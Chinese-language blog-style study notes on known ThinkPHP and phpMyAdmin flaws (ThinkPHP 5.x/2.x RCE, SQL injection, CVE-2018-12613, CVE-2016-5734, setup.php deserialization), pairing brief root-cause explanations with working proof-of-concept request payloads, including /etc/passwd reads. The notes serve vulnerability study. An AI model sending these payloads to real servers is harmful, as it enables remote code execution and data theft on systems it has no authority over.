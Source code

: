 ```yaml
---
title: ThinkPHP & phpMyAdmin 漏洞学习
date: 2020-07-29 19:58:27
tags:
  - PHP
categories:
  - Web 安全
featuredImage: 0.jpg
---
```


包含 ThinkPHP 5.x RCE / ThinkPHP 5.0.23 RCE / ThinkPHP 2.x RCE / ThinkPHP 5.x SQL 注入导致敏感信息泄露 / phpMyAdmin 4.8.1 远程文件包含 / phpMyAdmin 4.0.x-4.6.2 认证用户 RCE / phpMyAdmin 2.x setup.php 反序列化

<!--more-->

## ThinkPHP 5.x RCE

[参考](https://xz.aliyun.com/t/3570)

Controller 中没有过滤掉 `\`，但命名空间恰好需要用到 `\`，因此可以调用任意类的方法达到 RCE。

```
/index.php?s=/index/\think\app/invokefunction&function=call_user_func_array&vars[0]=printf&vars[1][]=b769a6983b42d565e79bb4f3f534623453f301d39784e57804a649a67ea05327
```

![图 1](1.png)

## ThinkPHP 5.0.23 RCE

[参考](https://xz.aliyun.com/t/3845)

获取 HTTP 请求类型时没有过滤，导致可以调用任意方法，参数为 POST 的数据。因此可以调用 `Request` 类的构造函数，覆盖其成员属性 `method, filter, get`，最终调用 `call_user_func` 实现 RCE。

```
POST /?s=captcha HTTP/1.1
...

_method=__construct&filter[]=printf&method=get&get[]=b769a6983b42d565e79bb4f3f534623453f301d39784e57804a649a67ea05327
```

```
POST /?s=captcha HTTP/1.1
...

_method=__construct&filter[]=printf&method=get&server[REQUEST_METHOD]=b769a6983b42d565e79bb4f3f534623453f301d39784e57804a649a67ea05327
```

![图 2](2.png)

## ThinkPHP 2.x RCE

[参考](http://since1994.cn/?p=281)

`preg_replace` 的 `/e` 模式允许用户输入的参数被执行，造成 RCE。

```
POST /?s=1/2/3/${eval($_POST[merc])} HTTP/1.1
...

merc=printf(b769a6983b42d565e79bb4f3f534623453f301d39784e57804a649a67ea05327);
```

![图 3](3.png)

> ThinkPHP 3.0 Lite 模式下同样存在漏洞。

## ThinkPHP 5.x SQL 注入导致敏感信息泄露

[参考](https://xz.aliyun.com/t/125)

PDO 查询时如果在查询条件中遇到了 `in` ，就会遍历传入数组 `ids` 的 key 和 value，而前者在预编译时并没有进行过滤，可以导致预编译结果出错。在 debug 模式开启时（默认），此时的报错会泄露数据库用户名和密码。

```
/index.php?ids[1,updatexml(1,concat(0x7e,md5(1),0x7e),1)]=1
```

![图 4](4.png)

## phpMyAdmin 4.8.1 远程文件包含 CVE-2018-12613

[参考](https://mp.weixin.qq.com/s/HZcS2HdUtqz10jUEN57aog)

代码中存在文件包含，只需要绕过条件判断中的白名单。判断函数利用 `?` 截断 GET 参数，并且还会进行 URL 解码，因此利用二次 URL 编码 `%253f` 即可绕过白名单，同时读取任意文件。

```
/index.php?target=db_sql.php%253f/../../../../etc/passwd
```

![图 5](5.png)

随后，执行 `select <?=phpinfo()?>;`，抓包获取当前 session，随后访问 session 文件即可执行对应 php 代码：

```
/index.php?target=db_sql.php%253f/../../../../tmp/sess_1ee714d1373e5caad9faf122e9ad1798
```

![图 6](6.png)

## phpMyAdmin 4.0.x-4.6.2 认证用户 RCE CVE-2016-5734

实际影响版本：

- 4.0.x < 4.0.10.16
- 4.4.x < 4.4.15.7
- 4.6.x < 4.6.3

[参考](https://larry.ngrep.me/2016/09/21/cve-2016-5734-analysis/)

这个问题实际上是 PHP 5.4.7 的 `preg_replace` 函数的问题。当使用类似如下代码时：

```php
preg_replace('/'.$user_input.'/i', $replace, $text);
```

我们可以输入 `/e\0` 来注入 `/e` 修饰符，同时截断后面的内容来达成 RCE。

在 phpMyAdmin 中利用这个漏洞，需要知道系统的用户名密码：[exp](https://www.exploit-db.com/exploits/40185)

![图 7](7.png)

## phpMyAdmin 2.x setup.php 反序列化

[参考](https://rj45mp.github.io/phpMyAdmin-WooYun-2016-199433/)

在 `/scripts/setup.php` 中没有对 `configuration` 参数进行过滤就进行了反序列化，因此可以注入一个 `PMA_Config` 对象，在构造函数中引入其成员变量 `source` 并通过 `eval` 执行。既可以读取文件，也可以通过已有文件执行代码。

以读取 `/etc/passwd` 为例：

```php
<?php
class PMA_Config {
  public $source = "/etc/passwd";
}

$data = new PMA_Config();
echo serialize($data);

?>
```

运行可以得到：

```
O:10:"PMA_Config":1:{s:6:"source";s:11:"/etc/passwd";}
```

![图 8](8.png)

之后可以进一步通过 ftp 协议写 shell。
